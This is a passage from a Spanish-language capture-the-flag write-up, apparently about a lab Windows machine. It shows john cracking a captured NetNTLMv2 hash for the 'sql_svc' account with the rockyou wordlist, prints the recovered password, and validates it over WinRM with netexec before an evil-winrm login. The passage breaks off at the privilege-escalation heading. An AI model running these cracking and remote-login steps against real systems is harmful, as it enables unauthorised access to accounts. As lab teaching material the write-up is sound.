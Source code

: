 Luego deberiamos de obtener un hash del usuario `sql_svc`

![20240312184327.png](20240312184327.png)

## Cracking hash

Ahora para crackear el hash que obtuvimos, usaremos la herramienta  de `john` 

```python
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

```python
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
REGGIE1234ronnie (sql_svc)     
1g 0:00:00:04 DONE (2024-03-12 18:40) 0.2178g/s 2331Kp/s 2331Kc/s 2331KC/s RENZOJAVIER..REDMAN69
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed. 
```

Una vez obtenida la contraseña, lo que haremos será validarla contra el servicio `winrm` con la herramienta de `netexec` 

```python
❯ netexec winrm 10.10.11.202 -u 'sql_svc' -p 'REGGIE1234ronnie'
```

![20240312184439.png](20240312184439.png)

Nos da un resultado de `Pwn3d!`, lo que no indica que la contraseña es valida y podemos conectarnos haciendo uso de `evil-winrm`
# Escalada de privilegios
## Usuario : sql_svc

Luego de validar las credenciales con `netexec`, ingresaremos a la maquina victima
